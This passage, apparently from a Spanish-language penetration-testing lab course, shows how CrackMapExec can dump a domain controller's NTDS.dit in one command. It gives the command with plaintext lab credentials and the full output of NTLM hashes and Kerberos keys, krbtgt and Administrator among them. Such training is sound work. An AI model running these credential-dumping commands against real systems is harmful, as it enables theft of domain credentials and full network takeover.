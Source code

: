 Alternativamente, podemos beneficiarnos de usar **CrackMapExec** para llevar a cabo los mismos pasos mostrados anteriormente, todo con un solo comando. Este comando nos permite utilizar VSS para capturar y volcar rápidamente el contenido del archivo **NTDS.dit** convenientemente dentro de nuestra sesión de terminal.

#### Atacando Active Directory & NTDS.dit

```bash
bashCopiar códigosherlock28@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

```plaintext
plaintextCopiar códigoSMB         10.129.201.57    445     DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57    445     DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
SMB         10.129.201.57    445     DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.129.201.57    445     DC01           Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.201.57    445     DC01           DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
SMB         10.129.201.57    445     DC01           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         10.129.201.57    445     DC01           WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
SMB         10.129.201.57    445     DC01           WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
SMB         10.129.201.57    445     DC01           WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
SMB         10.129.201.57    445     DC01           WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
SMB         10.129.201.57    445     DC01           WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
SMB         10.129.201.57    445     DC01           WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
SMB         10.129.201.57    445     DC01           inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         10.129.201.57    445     DC01           Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
SMB         10.129.201.57    445     DC01           Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
SMB         10.129.201.57    445     DC01           Administrator:des-cbc-md5:618c1c5ef780cde3
SMB         10.129.201.57    445     DC01           DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9
SMB         10.129.201.57    445     DC01           DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78d
SMB         10.129.201.57    445     DC01           DC01$:des-cbc-md5:a2852362e50eae92
SMB         10.129.201.57    445     DC01           krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
SMB         10.129.201.57    445     DC01           krbtgt:aes128-cts-hmac-sha1-96:1fe3f211d383564574609eda482b1fa9
```